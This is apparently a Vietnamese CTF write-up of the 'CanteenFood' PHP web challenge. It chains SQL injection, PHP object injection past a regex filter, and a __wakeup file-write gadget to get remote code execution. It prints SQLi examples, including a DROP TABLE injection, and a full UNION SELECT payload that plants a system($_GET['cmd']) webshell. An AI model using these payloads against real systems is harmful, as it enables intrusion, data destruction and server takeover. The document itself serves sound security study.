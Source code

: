 ```yaml
---
title: CanteenFood CTF Challenge WriteUp
categories: [pentesting, Web-Exploitation, CTF]
---
```


# CanteenFood CTF Challenge WriteUp by @Phatmh
## Tiến hành phân tích chức năng theo kiểu BlackBox

![image](https://hackmd.io/_uploads/SJOQlrxHxx.png)
Đây là một trang Web có chức năng cho User tìm kiếm được món ăn phù hợp với túi tiền của mình nhất bằng cách nhập số tiền mình mong muốn nó sẽ trả về món mà mình đủ tiền trả.
![image](https://hackmd.io/_uploads/rJesxBgBxx.png)
Ở đây sau khi viết ra số 300 và tiến hành bấm chức năng thì nó trả về được list các món dưới 300.
![image](https://hackmd.io/_uploads/Hyhgbrgrle.png)
Ở ngay bên trên mình phát hiện được một nơi đáng ngờ là chữ admin có thể dẫn ta đi đâu đó vì thể click thử vào.
![image](https://hackmd.io/_uploads/HJ7E-Hlrxg.png)
Nó trả về cho ta dòng **Only access allowed for canteen admin!!!** có vẻ nơi đây đã bị block lại và chỉ cho phép admin truy cập vào.
![image](https://hackmd.io/_uploads/SkPtWBgHle.png)
Sau một lúc phân tích thì mình thấy đường dẫn này liệu có thể là nơi để mình có thể tấn công bằng cách nào đó không vì parameter **?price=** cho phép người dùng thay đổi và đó là một **Untrusted Data** hoàn toàn có thể tấn công vào.

## Tiến hành phân tích Source Code cho sẵn
**AdminController.php**:
![image](https://hackmd.io/_uploads/SJwYPBlrll.png)
Đây là hàm xử lý quyền truy cập của người dùng, nó sẽ dùng method admin để xử lý trang. Sử dụng If Else để kiểm tra Session người dùng, nó sẽ từ chối truy cập khi **$_SESSION["admin"] === false (strict)** và trả về thông báo rằng **Only access allowed for canteen admin!!!**. Còn nếu người dùng là Admin thì nó sẽ trỏ đến AdminModel để đọc file **/logs.txt** và trả về nội dung. Ở đây không có một Sink nào để ta có thể lợi dụng tấn công vào mà chỉ cung cấp cho ta thông tin về cách trang web control được admin.

**CanteenController.php**:
![image](https://hackmd.io/_uploads/BJ1VI--rxx.png)
CanteenController với chức năng chính là hiển thị thực đơn canteen, tạo canteen Model và xử lý fillter theo giá sản phẩm.
**AdminModel.php**:
![image](https://hackmd.io/_uploads/Syr7-4Wrxx.png)
Nơi đây chứa hàm kiểm tra Session để có thể truy cập vào AdminModel trong trường hợp người truy cập là admin, cùng với đó là các constructor để ghi file vào file logs. Ở đây mình để ý một **magic method** là **__wakeup** là một method được gọi khi object được unserialize. Vậy ta có thể lợi dụng method này để tiến hành kịch bản **PHP Object Injection to RCE** được không? Ta sẽ lưu ý đoạn này và tiến hành đọc code tiếp.
**CanteenModel.php**:
Ở đây là một class chứa 2 functions chính là **getFood()** và **filterFood()** 
![image](https://hackmd.io/_uploads/ryhm7EbBex.png)
![image](https://hackmd.io/_uploads/B1fHmNWSel.png)
Tại đây mình đã tìm được Sink để có thể khai thác được cụ thể ở đây là một chuỗi exploit chain lợi dụng Sqli và PHP Object Injection bằng magic method từ đó RCE 
# Giải thích chi tiết chuỗi exploit CTF

## 📋 Tổng quan kiến trúc ứng dụng

### Các thành phần chính:
```
CanteenController 
├── index() → getFood() hoặc filterFood()
├── AdminController 
│   └── admin() → AdminModel::read_logs()
└── AdminModel + LogFile classes
```

### Luồng dữ liệu:
```
User Request → Controller → Model → Database → Response
```

##  Phân tích từng lỗ hổng

### 1. **SQL Injection (filterFood)**
```php
$sql = "SELECT * FROM food where price < " . $price_param;
```

**Vấn đề:** `$price_param` được nối trực tiếp vào query
- Không có escaping, validation, prepared statement
- Attacker có thể inject SQL commands

**Ví dụ:**
```php
// Request: /?price=1 OR 1=1
$price_param = "1 OR 1=1";
$sql = "SELECT * FROM food where price < 1 OR 1=1";  // Lấy tất cả records

// Request: /?price=1; DROP TABLE food; --
$price_param = "1; DROP TABLE food; --";  
$sql = "SELECT * FROM food where price < 1; DROP TABLE food; --";  // Xóa table
```

### 2. **PHP Object Injection (getFood & filterFood)**
```php
if($obj->oldvalue !== '') {
    $dec_result = base64_decode($obj->oldvalue);
    if (preg_match_all('/O:\d+:"([^"]*)"/', $dec_result, $matches)) {
        return 'Not allowed';
    }
    $uns_result = unserialize($dec_result);  // ← NGUY HIỂM!
    // ...
}
```

**Vấn đề:** Unserialize dữ liệu từ database mà chỉ có filter yếu
- `unserialize()` có thể tạo object bất kỳ
- Filter chỉ check regex pattern `O:\d+:"classname"`
- Có thể bypass filter

**Tại sao nguy hiểm:**
```php
// Khi unserialize, PHP sẽ:
1. Tạo object theo class được chỉ định
2. Set các properties
3. Gọi magic method __wakeup() nếu có
```

### 3. **Arbitrary File Write (__wakeup magic method)**
```php
class AdminModel {
    public function __wakeup() {
        new LogFile($this->filename, $this->logcontent);  // ← Magic method!
    }
}

class LogFile {
    public function __construct($filename, $content) {
        file_put_contents($filename, $content, FILE_APPEND);  // ← Ghi file!
    }
}
```

**Vấn đề:** Magic method `__wakeup()` được gọi tự động khi unserialize
- Tạo LogFile object → ghi file với path và content tùy ý
- Không validate filename/content

##  Chuỗi exploit chi tiết
Vậy đây ta có thể đưa ra suy nghĩ rằng khi bắt đầu khởi tạo Object và khi nó gọi đến unserialize() thì magic method đầu tiên nó đi qua sẽ là __wakeup() và cứ mỗi lần nó sẽ khởi tạo value mới bằng file_put_contents vậy nên ở đây kịch bản sẽ là ta sẽ lợi dụng Sqli để ghi vào chuỗi serialize khi mà hàm unserialize gọi đến __wakeup thì nó sẽ thực hiện và chuỗi shell được file_put_contents đưa vào. Bên cạnh đó tuy unserialize được filter bằng regex nhưng hoàn toàn có thể bypass như đã nói ở trên.
![image](https://hackmd.io/_uploads/rkMKOrMSxe.png)
Tiến hành viết Exploit code ở đây lợi dụng class AdminModel để làm ra một gadget chain khi mà nó unserialize thì nó sẽ gọi đến magic method là __wakeup, nên trong quá trình này mình dùng serialize object rồi mình sẽ đưa nó về Base64.
![image](https://hackmd.io/_uploads/B1nzFSzSee.png)
Ở đây mình sẽ truyền shell thẳng vào /www/shell.php vì nơi chứa index của bài sẽ nằm ở root của docker.
![image](https://hackmd.io/_uploads/r1upFHzSgx.png)
Ở đây kịch bản tấn công của mình sẽ là cố gắng `insert` được đoạn mã base64 rồi sau đó sẽ sửa `price=999999999` để nó gọi tất cả các bảng và unserialize và khi nó giải mã `base64` thì cái `oldValue` sẽ giúp ta tạo ra được file `shell.php` nằm ngay trong `/www/`.
![image](https://hackmd.io/_uploads/SJK3yIMSge.png)
Sau khi cố gắng Insert mình sẽ sửa parameter pricer=99999999 để cho nó gọi full bảng và thực hiện quá trình serialize và unserialize với mong muốn nó sẽ tạo file shell.php trong /www/.
![image](https://hackmd.io/_uploads/r1YmxUGree.png)
![image](https://hackmd.io/_uploads/r1ZUl8Mrlx.png)
Có vẻ như kịch bản Insert của mình đã thất bại vì không có một file nào được tạo ở bên trong docker vậy nên ta sẽ phải suy nghĩ đến kịch bản tấn công, vấn đề ở đây là ngoài Insert liệu có cách nào để ta có thể control được luồng dữ liệu mình thêm vào hay không?
![image](https://hackmd.io/_uploads/B104MIfrle.png)
Ở đây để xem cái kịch bản Insert của mình có ổn không thì mình đã truy cập thẳng vào DB của docker và tiến hành Insert thẳng vào bảng luôn và như ảnh trên thì dữ liệu đã được đưa vào bây giờ mình sẽ dùng `curl "http://localhost:1337/?price=999999999"` để nó gọi hết bảng.
![image](https://hackmd.io/_uploads/rk1yX8GHlx.png)
Ở đây có thể thấy nó đã thực sự work nếu ta Insert thẳng vào bảng bằng DB docker, từ đây ta sẽ suy nghĩ rằng có lẽ đã có đoạn code nào đó ngăn chặn user sử dụng Insert để inject value vào bảng.
Bây giờ ta sẽ tiến hành đi kiểm tra code để xem lý do vì sao ta không sử dụng Insert được.
![image](https://hackmd.io/_uploads/Sk7IQuMHel.png)
Ở đây sau khi đọc thì nó chỉ cho phép mình sử dụng SELECT và UPDATE thay vì Insert. Dựa theo đó mình đã thử UPDATE nhưng nhận ra là web app không có điểm nào để có thể cập nhật dữ liệu từ đó sử dụng UPDATE để thay đổi giá trị thế nên chỉ còn mỗi SELECT. Vậy ở đây làm sao để dùng SELECT để thay đổi và Insert được payload vào bảng, sau khi tìm kiếm thì UNION SELECT có khả thi để có thể Insert được payload vào mà không cần dùng đến Insert.

Bảng đích: food

Các cột: id, name, oldvalue, price

Mục tiêu: Chèn payload PHP Object Injection vào cột oldvalue

Tiến hành chèn câu Sql vào `-1+UNION+SELECT+999%2C+'hacked'%2C+'TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTQ6Ii93d3cvc2hlbGwucGhwIjtzOjEwOiJsb2djb250ZW50IjtzOjMwOiI8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4iO30%3D'%2C+1` thì nó sẽ dựa theo câu Database trở thành:
`SELECT id, name, oldvalue, price FROM food WHERE price < -1 UNION SELECT 999, 'hacked', 'TzorMTA6IkFkbWluTW9kZWwiOjI6e3M6ODoiZmlsZW5hbWUiO3M6MTQ6Ii93d3cvc2hlbGwucGhwIjtzOjEwOiJsb2djb250ZW50IjtzOjMwOiI8P3BocCBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4iO30=', 1`.
![image](https://hackmd.io/_uploads/BJYcV_Mrxl.png)
Sau khi inject thành công nó trả về cho ta một trang trắng xóa, đây là một dấu hiệu tốt vì khi nó được đẩy lên thành công mà không có lỗi nó sẽ trắng như này.
![image](https://hackmd.io/_uploads/HybkB_Mrle.png)
Kiểm tra file docker nó có nhảy file shell không và đã thành công tạo ra file shell.php nằm ngay ở /www/ là root của docker container.
![image](https://hackmd.io/_uploads/HypQr_GHxg.png)
Thành công chạy đến /shell.php và tiến hành truyền câu lệnh `ls` để đọc được các File trong đó.
![image](https://hackmd.io/_uploads/B1GDHOzSlg.png)
Đọc được các Logs ở trong logs.txt mà chỉ admin có thể đọc.
Vậy là đã hoàn thành mục tiêu RCE được web này sử dụng Exploit Chain là SQLi+PHP Object Injection to RCE.



